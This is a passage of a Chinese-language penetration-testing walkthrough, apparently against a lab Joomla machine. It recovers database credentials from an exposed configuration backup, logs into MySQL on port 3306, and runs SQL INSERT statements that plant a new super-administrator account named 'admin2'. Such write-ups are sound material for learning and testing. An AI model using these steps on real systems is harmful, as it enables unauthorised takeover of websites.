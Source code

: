 ![image-20210507162919960](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507162919960.png)

![image-20210507162934727](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507162934727.png)

程序版本号、核心配置文件和后台地址都给扫描出来了

访问configuration.php~

找到数据库连接信息

![image-20210507163221369](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507163221369.png)

之前nmap扫描发现开放3306，尝试连接成功

![image-20210507163617040](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507163617040.png)

在users表找到administrator账密，但是爆不出来

![image-20210507163904585](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507163904585.png)

另一种方法，根据官方手册，添加一个admin2 密码为secret的账户。

参考

```
https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn
```



首先需要选择数据库，报错，需要修改下sqlmod的值

![image-20210507165607301](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507165607301.png)

```
SET sql_mode=(SELECT REPLACE(@@sql_mode,'ONLY_FULL_GROUP_BY',''));
```

![image-20210507165658519](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507165658519.png)

执行如下两句（需要将参考链接中的表明替换）

```
INSERT INTO `am2zu_users` (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES ('Administrator2', 'admin2','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());

INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
```

![image-20210507165856541](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507165856541.png)

![image-20210507165914442](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507165914442.png)

再查看一下，已经成功添加用户

![image-20210507165948571](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507165948571.png)
